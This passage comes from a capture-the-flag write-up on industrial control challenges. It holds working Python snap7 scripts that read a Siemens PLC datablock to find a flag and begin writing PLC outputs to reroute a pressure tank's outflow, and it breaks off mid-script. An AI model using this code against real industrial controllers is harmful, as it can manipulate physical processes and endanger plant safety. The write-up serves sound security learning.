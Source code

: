 ```python
import snap7
from snap7.util import *

plc_ip = "35.232.66.239"  # Replace with your PLC's IP address
rack = 0
slot = 2

plc = snap7.client.Client()
plc.connect(plc_ip, rack, slot)

db_number = 23 # Datablock number
start_byte = 0  
data_length = 100

# Read data from the data block
data = plc.read_area(snap7.types.Areas.DB, db_number, start_byte, data_length)

# Close the PLC connection
plc.disconnect()

# Display the data
print("Data read from PLC:")
print(data)
```

When we run this program, we get the following answer:

```
Data read from PLC:
bytearray(b'pp\x01\x01\x05\n\x00\x17\x00\x00\x00\x8e\x00\x00\x00\x00\x03J\x12\xa570\x03C*q70\x00\x1e\x00\x00\x00\x00\x00(CRIMINAL_HOPS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\x17\x00\x17\x00\x00\x00\x11\x04\n\x06\x04\x06\x04\x06\x04\x06\x04\x06\x04\x06\x04\x06\x04')
```

The description was asking for a *UUID* as flag, but that was an error. I could have searched for a long time, fortunately I tried *"CRIMINAL_HOPS"* by pure luck and that was the flag. The organizers explained that in other CTFs they were asking for the UUID and that this was an error.

## PLC: Rerouting the brew

In this second PLC challenge, we are now asked: *"Manipulate the outlow of the pressure tank by setting the PLC outputs 2,4 and 6. Verify the changes by verifying the datablock 42."*.

Same the solution below is mostly the work of a team mate.

```python
import snap7
import snap7.client as c
from snap7.util import *
from time import sleep

plc_ip = "34.123.131.215"  # Replace with your PLC's IP address
rack = 0  # Rack number (usually 0 for S7-300)
slot = 2  # Slot number (usually 2 for S7-300)


def WriteOutput(dev, bytebit, cmd):
    if bytebit in ['2.0', '4.0', '6.0']:
        byte, bit = bytebit.split('.')
        byte, bit = int(byte), int(bit)
        data = dev.read_area(snap7.types.Areas.PA, 0, byte, 1) # S7AreaPA
        set_bool(data, byte, bit, cmd)
        dev.write_area(0x82, byte, data)

def main():
```